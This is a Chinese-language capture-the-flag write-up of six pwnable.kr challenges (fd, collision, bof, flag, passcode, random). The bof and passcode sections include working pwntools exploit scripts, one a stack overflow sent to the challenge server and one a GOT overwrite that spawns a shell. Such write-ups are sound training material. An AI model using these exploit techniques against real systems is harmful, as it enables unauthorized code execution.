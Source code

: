 ```yaml
---
layout:     post
title:      Pwnable.kr
category: coding
description: pwnable.kr Writeup
---
```


## 0x00 fd
Text：Mommy! what is a file descriptor in Linux?

![1](/images/pwnable-kr/1.jpg)

先ls看下都有什么文件，可以看到一个二进制文件，一份源码，和我们要拿到的flag

![2](/images/pwnable-kr/2.jpg)

看看源码，可以看出关键点就在于read函数，我对标准库也不是很了解所以想要找一份源码看看，但是并没有找到，根据查到零散资料我一开始把read函数理解为了从fd指向的内存中读取32字节到buf中，算好了 "LETMEWIN\n" 字符串的地址计算后的结果输入之后并没有成功。而fd的实际含义是linux对文件的一个索引id，而 `fd==0` 代表的含义是从终端中读取用户输入，所以我们只需要令 fd 为0就可以控制输入内容了。

附：[File Descriptor详解](http://blog.csdn.net/jnu_simba/article/details/8806654)

## 0x01 collision
Text：Daddy told me about cool MD5 hash collision today. I wanna do something like that too!

![3](/images/pwnable-kr/3.jpg)

一个简单的摘要计算，将4位char转为int，相加作为摘要，简单改下脚本手动爆破一下就可以得出结果

## 0x02 bof
Text：Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?

![4](/images/pwnable-kr/3.jpg)

很明显可以找到gets函数出可能存在溢出情况，查看栈情况后发现变量s长度为32，虽然应用程序开启了canary，但是system函数可以在返回之前触发，所以思路就是栈溢出直到覆盖ebp+8这个位置的a1变量为0xcafebabe

{% highlight python %}
from pwn import *

p = remote('pwnable.kr', 9000)

value = 0xcafebabe

payload = 'A' * 0x2C
payload += 'B'* 0x8
payload += p32(value)

p.sendline(payload)
p.interactive()
{% endhighlight %}

## 0x03 flag
这是一道逆向题，拖进ida发现是被加了upx壳，直接到ubuntu下 `upx -d` 脱壳，解开壳之后直接找到了flag

## 0x04 passcode
Text：Mommy told me to make a passcode based login system. My initial C code was compiled without any error! Well, there was some compiler warning, but who cares about that?

![8](/images/pwnable-kr/8.jpg)

这个程序的漏洞就出在这个login函数中，scanf时传入的是passcode1的值，而不是passcode1的地址，所以我们就可以把数据写到passcode1的值指向的地址，下一步就是如何控制passcode1的值

![6](/images/pwnable-kr/6.jpg)

这里可以看到welcome和login是连续调用的，所以这里两个函数的栈底应该是处于同一位置，所以考虑welcome中输入的用户名是否会对passcode1的值产生影响

所以用pattern命令构造了一个长度为100的字符串

- AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

![7](/images/pwnable-kr/7.jpg)

可以看到，passcode1的值是我们上次输入的字符串的最后四位，所以我们可以通过name的输入来控制passcode1指向的地址，看到scanf下一行调用了fflush，所以我们可以将passcode1的值指向fflush的got表地址，然后把fflush的地址改写为调用system('/bin/sh')的地址

![5](/images/pwnable-kr/5.jpg)

{% highlight python %}
#!/usr/bin/python 
from pwn import *

p = process('./passcode')
fflush_got = 0x0804a004
system_addr = 0x80485e3
payload = "A" * 96 + p32(fflush_got)
p.send(payload)
p.recvuntil(' :')
payload = str(system_addr)
p.send(payload)
p.interactive()
{% endhighlight %}

## 0x05 random
Text：Daddy, teach me how to use random value in programming!

![9](/images/pwnable-kr/9.jpg)

可以看到rand()没有输入随机种子，所以这其实是一个伪随机，每次运行的结果是一样的，所以直接从gdb取出随机值，然后计算出异或结果，输入，得到flag

![10](/images/pwnable-kr/10.jpg)